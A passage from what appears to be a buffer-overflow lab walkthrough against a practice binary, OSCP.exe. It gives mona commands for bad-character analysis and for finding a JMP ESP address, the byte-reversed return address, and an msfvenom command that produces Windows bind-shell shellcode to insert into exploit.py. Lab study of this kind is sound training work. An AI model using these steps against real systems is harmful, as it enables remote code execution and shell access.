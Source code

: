 Generally speaking with bad characters a bad character will also corrupt the byte to the immediate right of it. Assuming this with the data above we can assume the bad characters are: '\x00\x07\x2e\xa0".

Next run the bytearray command in Mona again specifying all bad characters.

```
!mona bytearray -b "\x00\x07\x2e\xa0"
```

Remove the same bad characters listed above from the payload variable in `exploit.py`.

Now restart the OSCP.exe in Immunity and then run the `exploit.py` again. Once the exploit has run and crashed the OSCP.exe we can then run the comparison command against the new ESP value.

```
!mona compare -f C:\mona\oscp\bytearray.bin -a 01A5FA30
```

Providing all the bad characters have been identified and the steps above follow correctly you should see a screen similar to below stating '[`!!! Hooray, normal shellcode unmodified !!!`](http://127.0.0.1)'

![](<../.gitbook/assets/image (1560).png>)

We now need to find a jump point. Run the command below with the included bad characters to find the jump point:

```
!mona jmp -r esp -cpb "\x00\x07\x2e\xa0"
```

![](<../.gitbook/assets/image (1561).png>)

We can then use any of these addresses going forwards. I will in this example use the first address of `625011af`

We need to then take this value and reverse it and use it in the 'retn' value in `exploit.py`. The reverse value is converted into bytes is: `\xaf\x11\x50\x62`

![](<../.gitbook/assets/image (1562).png>)

After this has been completed we need to use `msfvenom` to generate a payload. The syntax is shown below.

{% hint style="info" %}
Please see the 'Additional Notes' section at the end regarding shell types.
{% endhint %}

```
msfvenom -p windows/shell_bind_tcp RHOST=10.10.36.168 LPORT=443 EXITFUNC=thread -b "\x00\x07\x2e\xa0" -f py
```

![](<../.gitbook/assets/image (1567).png>)

Add the generated shellcode to `exploit.py` Ensure the payload variable in `exploit.py` is set to 'buf' and the shellcode is placed above the payload variable in the script order.
